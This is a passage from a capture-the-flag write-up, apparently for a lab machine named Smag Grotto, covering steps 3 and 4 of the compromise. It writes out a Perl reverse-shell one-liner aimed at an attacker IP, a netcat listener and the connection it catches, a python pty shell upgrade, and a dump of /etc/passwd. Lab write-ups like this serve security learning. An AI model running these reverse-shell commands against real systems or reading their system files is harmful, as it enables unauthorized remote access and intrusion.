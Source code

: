 ```  

## Step 3 : Exploiting the website to get a reverse-shell
In this page, I tried ```ls``` and ```whoami``` but there was no output. But we can try to get a reverse shell with this command input. I used a perl reverse shell found at https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  
```
perl -e 'use Socket;$i="10.x.x.x";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```  
So I set a netcat listener on port 1234. ```nc -lnvp 1234```, then I send the reverse shell command to the website, and I got a reverse shell !  
```
attacker@AttackBox:~/Smag_Grotto$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.121.229] 55796
/bin/sh: 0: can't access tty; job control turned off
$
```

Let's get a bit more stable shell with python, ```python3 -c 'import pty; pty.spawn("/bin/bash")'```.  
```
attacker@AttackBox:~/Smag_Grotto$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.121.229] 55798
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@smag:/var/www/development.smag.thm$
```

## Step 4 : Get access to another user than www-data
Now that we have a better shell, we can try to read the file ```/etc/passwd```to see users list on this machine ```cat /etc/passwd```.  
```
www-data@smag:/var/www/development.smag.thm$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
jake:x:1000:1000:jake,,,:/home/jake:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin